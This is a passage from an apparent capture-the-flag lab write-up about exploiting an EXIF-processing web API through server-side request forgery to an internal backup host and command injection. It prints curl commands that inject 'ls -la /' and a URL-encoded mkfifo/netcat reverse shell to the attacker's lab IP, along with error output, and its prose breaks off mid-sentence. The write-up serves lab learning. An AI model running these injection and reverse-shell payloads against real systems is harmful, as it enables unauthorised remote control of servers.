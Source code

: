 ![nothingtosee](Screenshots/nothingtoseeheremoveon.png)

We then can try command injection with like so:
```bash
curl 'http://$IP/api/exif?url=http://api-dev-backup:8080/exif?url=;ls+-la+/'
```
Thankful this is my revision of Docker - thankful I am reading the write up and have been burnt a few times by a few CTF elements that are just not even used in real world:
Port knocking. 
The reason for this that with the command inject you 

```bash
root@ip-10-10-128-153:~# curl 'http://10.10.201.106/api/exif?url=http://api-dev-backup:8080/exif?url=;rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E&1%7Cnc%2010.10.128.153%209999%20%3E/tmp/f'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               sh: 1: Syntax error: end of file unexpected

root@ip-10-10-128-153:~# curl 'http://10.10.201.106/api/exif?url=http://api-dev-backup:8080/exif?url=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E128%2E153%209999%20%3E%2Ftmp%2Ff'
```